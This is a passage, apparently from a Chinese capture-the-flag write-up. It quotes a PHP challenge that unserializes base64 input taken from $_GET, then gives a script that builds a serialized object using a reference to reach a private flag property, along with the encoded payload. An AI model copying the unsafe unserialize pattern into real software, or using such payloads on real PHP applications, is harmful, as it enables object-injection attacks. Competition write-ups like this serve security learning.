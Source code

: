 ```php
    $a = @unserialize(base64_decode($_GET['a']));
    throw new Exception("Nop :)");
}
```

看到代码的感觉就是要覆$this→i_am_not_flag为 $this→i_am_flag...然后...就没然后了

看到其他师傅的wp里写的是利用`=&`对变量进行引用....罢了,已经弃坑了

```php
<?php

require_once "flag.php";

class Foo
{
    private $i_am_flag;
    public $i_am_not_flag;

    public function __construct() {
        $this->i_am_not_flag =& $this->i_am_flag;
    }

}

$a = new Foo;
// $a->i_am_not_flag =& $a->i_am_flag;
echo base64_encode(serialize($a));
//TzozOiJGb28iOjI6e3M6MTQ6IgBGb28AaV9hbV9mbGFnIjtOO3M6MTM6ImlfYW1fbm90X2ZsYWciO1I6Mjt9
```

## misc

### checkin

![Untitled](%E4%B8%AD%E5%9B%BD%E6%B5%B7%E6%B4%8B%E5%A4%A7%E5%AD%A62022%E6%A0%A1%E8%B5%9B%20820eb4cc2853421d86a7ce0525d20554/Untitled%203.png)
